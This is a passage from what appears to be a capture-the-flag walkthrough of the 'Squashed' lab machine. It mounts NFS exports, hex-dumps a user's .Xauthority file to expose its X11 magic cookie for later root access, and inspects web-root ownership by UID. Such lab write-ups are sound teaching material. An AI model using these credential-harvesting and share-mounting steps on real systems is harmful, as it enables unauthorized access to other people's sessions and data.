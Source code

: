 There is a `.Xauthority` file in the home directory. This is a binary file, but I can take a peak with `xxd` to view it as hex:

```

dummy@hacky:/mnt$ xxd .Xauthority 
00000000: 0100 000c 7371 7561 7368 6564 2e68 7462  ....squashed.htb
00000010: 0001 3000 124d 4954 2d4d 4147 4943 2d43  ..0..MIT-MAGIC-C
00000020: 4f4f 4b49 452d 3100 10f9 b01f 9b13 d3f7  OOKIE-1.........
00000030: 4f29 2801 ff73 88ea bf                   O)(..s...

```

I’ll use this later to get root.

#### /var/www/html

I’ll unmount the home directory and mount the web root:

```

oxdf@hacky$ sudo umount /mnt 
oxdf@hacky$ sudo mount -t nfs 10.10.11.191:/var/www/html /mnt

```

I’m not able to access much of anything:

```

oxdf@hacky$ find /mnt -ls
   133456      4 drwxr-xr--   5 2017     www-data     4096 Nov 11 20:35 /mnt
find: ‘/mnt/.htaccess’: Permission denied
find: ‘/mnt/index.html’: Permission denied
find: ‘/mnt/images’: Permission denied
find: ‘/mnt/css’: Permission denied
find: ‘/mnt/js’: Permission denied
oxdf@hacky$ ls -l /mnt
ls: cannot access '/mnt/index.html': Permission denied
ls: cannot access '/mnt/images': Permission denied
ls: cannot access '/mnt/css': Permission denied
ls: cannot access '/mnt/js': Permission denied
total 0
?????????? ? ? ? ?            ? css
?????????? ? ? ? ?            ? images
?????????? ? ? ? ?            ? index.html
?????????? ? ? ? ?            ? js

```

Looking at the directory itself, it seems to be owned by userid 2017 and groupid of www-data on my system, which is 33:

```

oxdf@hacky$ ls -ld /mnt
drwxr-xr-- 5 2017 www-data 4096 Nov 11 20:35 /mnt
oxdf@hacky$ cat /etc/group | grep www-data
www-data:x:33:

```
